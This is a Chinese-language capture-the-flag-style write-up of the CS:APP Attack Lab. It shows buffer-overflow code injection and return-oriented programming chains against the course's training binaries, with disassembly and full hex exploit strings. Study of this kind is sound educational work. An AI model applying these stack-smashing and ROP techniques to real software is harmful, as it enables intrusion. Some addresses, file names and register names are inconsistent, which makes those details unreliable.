

# Attacklab 实现笔记

### 1.准备工作

&emsp;&emsp;首先对ctarget与rtarget文件执行反汇编指令：

```bash
objdump -d ctarget > ctarget.asm
objdump -d rtarget > rtarget.asm
```

&emsp;&emsp;我们输入的攻击字符串需要通过以下方法读入ctarget/rtarget中：

```bash
./hex2raw < ctarget.l2.txt | ./ctarget -q
```

&emsp;&emsp;我们的攻击针对以下程序：
```C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

&emsp;&emsp;我们希望攻击`test`函数，使其在执行`getbuf()`后执行我们植入的函数、然后终止运行，而不是执行`printf`指令。

### 2.代码植入攻击

#### &emsp;&emsp;$a.$phase 1

&emsp;&emsp;阶段一需要植入的函数如下：

```C
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

&emsp;&emsp;在反汇编后得到的`ctarget.asm`中，`touch1`对应代码段如下：

```assembly
00000000004017c0 <touch1>:
......
```

&emsp;&emsp;该函数并不需要传入额外的参数，我们只需将该函数的地址覆盖`getbuf`的返回地址即可。

&emsp;&emsp;而为了覆盖`getbuf`的返回地址，我们需要**填满`getbuf`函数的缓冲区，然后将缓冲区外装载返回地址的部分载入`touch1`的地址**。

&emsp;&emsp;在`ctarget.asm`中，`getbuf`对应汇编代码如下：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp     # open stack
  4017ac:	48 89 e7             	mov    %rsp,%rdi      # rdi = rsp
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>  # getstring
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

&emsp;&emsp;可以看到`getbuf`的缓冲区大小为0x28，即40。我们只需用任意字符串填充缓冲区，然后将栈帧位置的返回地址改为`4017a8`即可：

```txt
00 00 00 00 00 00 00 00 # (%rsp)
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 # (%rbp)
```

> 注意到实验采用little-endian，我们需要把地址倒过来写。

#### &emsp;&emsp;$b.$Phase 2

&emsp;&emsp;阶段二需要植入的函数如下：

```C
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie)
    {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

&emsp;&emsp;其对应汇编代码如下：

```assembly
00000000004017ec <touch2>:
......
```

&emsp;&emsp;由C函数可知，我们需要传入参数`val`，并且该参数与`cookie`相等。为此，我们植入以下代码（`insert.s`）：

```assembly
push $0x4017ec         
mov $0x59b997fa,%rdi   # the first argument equals to cookie
ret                    # return
```

> 由于`ret`会弹出栈中的值并跳转到该地址，所以首先将`touch2`的地址`push`到栈中，这样`ret`后就会执行`touch2`了。

&emsp;&emsp;为了能够顺利执行植入代码，我们**把植入代码放在栈底（`%rsp`所在地址），然后将`getbuf`原有的返回地址覆盖为`%rsp`地址即可**。

&emsp;&emsp;为获取`%rsp`地址，可以用如下的gdb指令，在进入`Gets`函数的位置设置断点：



&emsp;&emsp;这样，我们在对我们的植入代码进行反汇编操作后：

```bash
gcc -c inject.s
objdump -d inject.o
```

&emsp;&emsp;即可将得到的结果：

```txt
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3
```

&emsp;&emsp;加入栈中。最终输入的字符串如下：

```txt
68 ec 17 40 00 48 c7 c7 # (%rsp)
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # (%rbp)
```

> 将`%rsp`的地址放入栈帧的位置也是利用了`ret`的特性，`getbuf`在最后`ret`时可以把栈中剩下的这个地址弹出来，把程序的控制权交给它。

#### &emsp;&emsp;$c.$Phase 3

&emsp;&emsp;阶段三需要植入的函数如下：

```C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval))
    {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }
    else
    {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

&emsp;&emsp;首先得到cookie的ASCII表示（little-endian）：35 39 62 39 39 37 66 61.

&emsp;&emsp;然后，根据题目提示，我们应该把`%rdi`设置为字符串指针的地址，而内存中存储的字符串的值即是cookie的ASCII表示。

&emsp;&emsp;为了得到该地址，我们观察`getbuf`中调用的读取字符串的函数`Gets`：

```assembly
0000000000401a40 <Gets>:
  401a40: 41 54                 push   %r12
  401a42: 55                    push   %rbp
  401a43: 53                    push   %rbx
  401a44: 49 89 fc              mov    %rdi,%r12
  401a47: c7 05 b3 36 20 00 00  movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e: 00 00 00 
  401a51: 48 89 fb              mov    %rdi,%rbx
  401a54: eb 11                 jmp    401a67 <Gets+0x27>
  401a56: 48 8d 6b 01           lea    0x1(%rbx),%rbp
  401a5a: 88 03                 mov    %al,(%rbx)
  401a5c: 0f b6 f8              movzbl %al,%edi
  401a5f: e8 3c ff ff ff        callq  4019a0 <save_char>
  401a64: 48 89 eb              mov    %rbp,%rbx
  401a67: 48 8b 3d 62 2a 20 00  mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e: e8 4d f3 ff ff        callq  400dc0 <_IO_getc@plt>
  401a73: 83 f8 ff              cmp    $0xffffffff,%eax
  401a76: 74 05                 je     401a7d <Gets+0x3d>
  401a78: 83 f8 0a              cmp    $0xa,%eax
  401a7b: 75 d9                 jne    401a56 <Gets+0x16>
  401a7d: c6 03 00              movb   $0x0,(%rbx)
  401a80: b8 00 00 00 00        mov    $0x0,%eax
  401a85: e8 6e ff ff ff        callq  4019f8 <save_term>
  401a8a: 4c 89 e0              mov    %r12,%rax
  401a8d: 5b                    pop    %rbx
  401a8e: 5d                    pop    %rbp
  401a8f: 41 5c                 pop    %r12
  401a91: c3                    retq
```

&emsp;&emsp;可以看到它调用了`save_char`函数，这个函数应该是用于保存字符串位置的。我们再观察`save_char`的反汇编代码：

```assembly
00000000004019a0 <save_char>:
  4019a0:	8b 05 5e 37 20 00    	mov    0x20375e(%rip),%eax        # 605104 <gets_cnt>
  4019a6:	3d ff 03 00 00       	cmp    $0x3ff,%eax
  4019ab:	7f 49                	jg     4019f6 <save_char+0x56>
  4019ad:	8d 14 40             	lea    (%rax,%rax,2),%edx
  4019b0:	89 f9                	mov    %edi,%ecx
  4019b2:	c1 e9 04             	shr    $0x4,%ecx
  4019b5:	48 63 c9             	movslq %ecx,%rcx
  4019b8:	0f b6 b1 b0 34 40 00 	movzbl 0x4034b0(%rcx),%esi
  4019bf:	48 63 ca             	movslq %edx,%rcx
  4019c2:	40 88 b1 00 45 60 00 	mov    %sil,0x604500(%rcx)
  4019c9:	8d 4a 01             	lea    0x1(%rdx),%ecx
  4019cc:	83 e7 0f             	and    $0xf,%edi
  4019cf:	0f b6 b7 b0 34 40 00 	movzbl 0x4034b0(%rdi),%esi
  4019d6:	48 63 c9             	movslq %ecx,%rcx
  4019d9:	40 88 b1 00 45 60 00 	mov    %sil,0x604500(%rcx)
  4019e0:	83 c2 02             	add    $0x2,%edx
  4019e3:	48 63 d2             	movslq %edx,%rdx
  4019e6:	c6 82 00 45 60 00 20 	movb   $0x20,0x604500(%rdx)
  4019ed:	83 c0 01             	add    $0x1,%eax
  4019f0:	89 05 0e 37 20 00    	mov    %eax,0x20370e(%rip)        # 605104 <gets_cnt>
  4019f6:	f3 c3                	repz retq 
```

&emsp;&emsp;可以看到`mov`操作的终点的偏移大部分为`0x604500`，因此这很大可能是存储字符串的指针的基地址。

&emsp;&emsp;这样，我们就可以写出如下植入代码：

```assembly
pushq $0x4018fa
mov $0x604500,%rdi          # the string pointer's address, where the result of Gets is stored
movq $0x39623935,(%rdi)
movq $0x61663739,0x4(%rdi)
ret
```

&emsp;&emsp;剩余部分和阶段二相似，最终得到的字符串如下：

```txt
68 fa 18 40 00 48 c7 c7
00 45 60 00 48 c7 07 35 
39 62 39 48 c7 47 04 39 
37 66 61 c3 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

### 3.返回导向编程(ROP)

&emsp;&emsp;ROP(Return-Oriented Programming)通过识别已有程序中已有的字节序列来实现攻击，这些字节序列包含一些别的指令已经结尾的`ret`。这些字节序列被叫做小工具（gadget）

&emsp;&emsp;小工具可以**使用与编译器生成的汇编语言语句对应的代码**。虽然单个小工具并不能实现有效的攻击，但是通过把小工具组合起来，我们可以达到和植入代码一样的效果。

#### &emsp;&emsp;$a.$Phase 4

&emsp;&emsp;根据提示，识别出需要的小工具如下：

```assembly
# movq %rax %rdi
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

# gadget movq %rax %rdi
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

# gadget popq %rax
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq  
```

&emsp;&emsp;由于这些小工具并没有实现`ret`，因此我们需要用别的方法来把cookie的值存入`%rdi`中：

1. 执行`popq %rax`，然后把cookie的ASCII值放进栈中。这样`%rax`中就存有需要的值了。

2. 执行`movq %rax %rdi`。

3. 调用`touch2`，这样`touch2`就可以用`%rdi`中的值作为参数了。

#### &emsp;&emsp;$b.$Phase 5

&emsp;&emsp;根据题目要求，我们需要利用提供的小工具实现Phase 3的功能。而在Phase 3中，我们将字符串指针位置放入`%rsi`，并在`M[%rsi]`处放置cookie的ascii表示。

&emsp;&emsp;为了达到和Phase 3相同的目的，我们需要需要在栈中实现以下结构：

1. 覆盖`getbuf`的缓冲区。

2. 分别将`touch3`指令的地址和`touch3`的参数字符串的指针地址放入栈中。

3. 将字符串的起始位置放置在`%rdi`中。

    * 因为在放入字符串前要放入`touch3`指令的地址，因此我们要将`%rsp+32`的值放入`%rdi`中。`%rsp`是栈指针的初始位置，32是`touch3`指令占据的比特。

&emsp;&emsp;为了实现`+32`，在`rtarger.asm`中可以找到用于赋值与求和的小工具：

```assembly
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq 
```

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

&emsp;&emsp;然后通过小工具，将`%eax`的值传入`%rdi`与`%rsi`中，通过`<add_xy>`就可以构造出常数了。可以发现几个适用的小工具：

```assembly
# gadget movq %rax %rdi
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```

```assembly
# movl %eax, %edx
0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   
```

```assembly
# movl %edx, %ecx
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   
```

```assembly
# movl %ecx, %esi
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq  
```

&emsp;&emsp;反复用这几个小工具，就可以在寄存器中辗转得到想要的32：

```assembly
94 19 40 00 00 00 00 00   # mov $0x1,%eax
c6 19 40 00 00 00 00 00   # movq %rax,%rdi
42 1a 40 00 00 00 00 00   # movl %eax,%edx
34 1a 40 00 00 00 00 00   # movl %edx,%ecx
27 1a 40 00 00 00 00 00   # movl %ecx,%esi
d6 19 40 00 00 00 00 00   # add_xy operation, %rax=%rdi+%rsi, add 1 to %rax
# through the step, %rax, %rdx, %rcx, rsi equals 1

c6 19 40 00 00 00 00 00   # movq %rax,%rdi
42 1a 40 00 00 00 00 00   # movl %eax,%edx
34 1a 40 00 00 00 00 00   # movl %edx,%ecx
27 1a 40 00 00 00 00 00   # movl %ecx,%esi
d6 19 40 00 00 00 00 00   # add_xy operation, %rax=%rdi+%rsi, add 1 to %rax
......
```

&emsp;&emsp;得到32后，我们需要让`%rdi=%rsp+32`，可以通过如下方式辗转实现（具体小工具略过）：

```assembly
06 1a 40 00 00 00 00 00   # movl %esp,%eax, since the %esp isn't involved in above calculation, it still stores the original value
c5 19 40 00 00 00 00 00   # movq %rax %rdi, %rdi is reseted, too
d6 19 40 00 00 00 00 00   # add_xy, set %rax to %rdi+32
c5 19 40 00 00 00 00 00   # movq %rax %rdi, thus %rdi points to the start of the string
```

&emsp;&emsp;最后放入`touch3`的地址和cookie的ascii表示即可：

```assembly
fa 18 40 00 00 00 00 00   # address of touch3
35 39 62 39 39 37 66 61   # ascii of cookie
```